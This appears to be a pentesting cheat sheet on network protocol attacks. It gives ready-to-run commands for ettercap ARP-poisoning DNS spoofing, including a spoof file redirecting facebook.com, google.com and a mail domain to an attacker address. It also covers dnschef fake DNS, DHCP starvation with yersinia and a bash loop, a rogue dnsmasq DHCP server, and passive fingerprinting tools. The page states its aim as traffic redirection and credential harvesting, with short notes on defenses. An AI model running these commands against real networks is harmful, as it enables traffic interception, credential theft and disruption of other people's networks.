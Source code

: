 ## Network Protocol Exploitation

### DNS Spoofing and Cache Poisoning
```bash
# Ettercap DNS Spoofing
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100// -P dns_spoof

# DNS Spoofing Configuration (etter.dns)
*.facebook.com      A   192.168.1.50
*.google.com        A   192.168.1.50
mail.target.com     A   192.168.1.50

# DNSChef - Advanced DNS Proxy
dnschef --fakeip 192.168.1.50 --fakedomains facebook.com,google.com
dnschef --nameservers 8.8.8.8 --interface 192.168.1.50 --logfile dnschef.log
```

**Documentation**: DNS manipulation techniques for traffic redirection and credential harvesting.
**Limitations**: DNS over HTTPS (DoH) prevents some attacks; DNSSEC provides integrity protection.

### DHCP Attacks Implementation
```bash
# DHCP Starvation with Yersinia
yersinia dhcp -attack 1                                     # DHCP starvation attack
yersinia dhcp -attack 2                                     # DHCP discover attack

# Custom DHCP Starvation Script
#!/bin/bash
for i in {1..254}; do
    dhclient -v -i eth0 -H "fake-host-$i" &
done

# Rogue DHCP Server (dnsmasq)
dnsmasq --interface=eth0 --dhcp-range=192.168.1.50,192.168.1.100,255.255.255.0,12h --dhcp-option=3,192.168.1.1 --dhcp-option=6,192.168.1.1
```

**Documentation**: DHCP attacks for network disruption and rogue server deployment.
**Limitations**: DHCP snooping prevents attacks; requires network access; easily detected by network monitoring.

## Advanced Sniffing Tools and Techniques

### Network Reconnaissance with Passive Tools
```bash
# P0f - Passive OS Fingerprinting
p0f -i eth0 -p -o fingerprints.log                        # Passive OS detection
p0f -r capture.pcap                                        # Analyze existing capture

# EtherApe - Network Visualization
etherape -i eth0                                           # Real-time network visualization

# NetworkMiner - Network Forensic Analysis
mono NetworkMiner.exe --help                              # GUI network analysis tool
```
